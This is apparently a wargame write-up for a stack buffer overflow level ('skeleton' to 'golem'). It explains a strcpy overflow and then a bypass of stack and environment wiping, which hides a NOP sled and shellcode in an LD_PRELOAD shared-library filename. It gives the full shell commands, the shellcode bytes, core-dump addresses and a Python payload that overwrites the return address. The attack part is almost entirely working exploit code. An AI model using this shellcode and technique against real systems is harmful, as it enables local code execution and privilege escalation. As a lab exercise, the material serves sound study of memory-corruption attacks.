 # Vulnerability
```c
char buffer[40];
strcpy(buffer, argv[1]);
```
This program uses strcpy() that does not check boundary so I can overwrite SFP & RET address.

The protection is:
```c
memset(buffer, 0, 44);
memset(buffer+48, 0, 0xbfffffff - (int)(buffer+48));
```
This code makes me not able to use stack address anymore.

# Exploitation
I am also not able to use environment variables but there is a method.

It is using LD_PRELOAD which is a shared library that program loads and executed.

I will give NOP & Shellcode in LD_PRELOAD and set RET address to LD_PRELOAD's address:
```bash
[skeleton@localhost skeleton]$ touch ./tmp.c
[skeleton@localhost skeleton]$ gcc tmp.c -fPIC -shared -o "/home/skeleton/`python -c 'print "\x90"*30+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`"
[skeleton@localhost skeleton]$ 
[skeleton@localhost skeleton]$ export LD_PRELOAD="/home/skeleton/`python -c 'print "\x90"*30+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`"
```
Now, I have to know LD_PRELOAD's address by checking core file:
```
0xbffff620:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff630:	0x90909090	0x90909090	0x5e11eb90	0x32b1c931
0xbffff640:	0xff0e6c80	0x01e98001	0x05ebf675	0xffffeae8
```
# Payload
```python
import os
from struct import *

filename = "/home/skeleton/golem"

payload = ""
payload = payload + "\x90" * 40
payload = payload + "AAAA" # SFP
payload = payload + "\x0c\xf6\xff\xbf" # RET

os.execv(filename, [filename, payload])
```
